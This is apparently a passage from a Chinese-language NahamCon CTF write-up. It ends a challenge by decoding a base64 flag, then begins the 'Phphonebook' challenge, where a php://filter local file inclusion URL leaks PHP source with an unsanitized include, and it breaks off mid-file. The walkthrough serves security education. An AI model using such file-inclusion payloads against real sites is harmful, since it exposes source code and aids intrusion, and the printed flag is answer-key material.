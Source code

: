 将flag 进行base64解密：JCTF{spoooooky_ghosts_in_storage}



### Phphonebook

进入题目发现疑有文件包含漏洞，

构造: http://jh2i.com:50002/?file=php://filter/read=convert.base64-encode/resource=index.php 得到index.php源码。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Phphonebook</title>
    <link href="main.css" rel="stylesheet">
  </head>
  <body>
	<?php
		$file=$_GET['file'];
		if(!isset($file))
		{
			echo "Sorry! You are in /index.php/?file=";
		} else
		{
			include(str_replace('.php','',$_GET['file']).".php");
			die();
		}
	?>
	  	<p>The phonebook is located at <code>phphonebook.php</code></p>

<div style="position:fixed; bottom:1%; left:1%;">
<br><br><br><br>
<b> NOT CHALLENGE RELATED:</b><br>THANK YOU to INTIGRITI for supporting NahamCon and NahamCon CTF!
<p>
<img width=600px src="https://d24wuq6o951i2g.cloudfront.net/img/events/id/457/457748121/assets/f7da0d718eb77c83f5cb6221a06a2f45.inti.png">
</p>
</div>

  </body>
 </html>
```

发现有waf ，file提交的参数里‘.php’会被过滤，并在末尾强制加上‘.php’.

同时发现phphonebook.php。同样用文件包含得到源码。

```
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Phphonebook</title>
    <link href="main.css" rel="stylesheet">
  </head>

  <body class="bg">
    <h1 id="header"> Welcome to the Phphonebook </h1>

    <div id="im_container">

      <img src="book.jpg" width="50%" height="30%"/>

      <p class="desc">
```
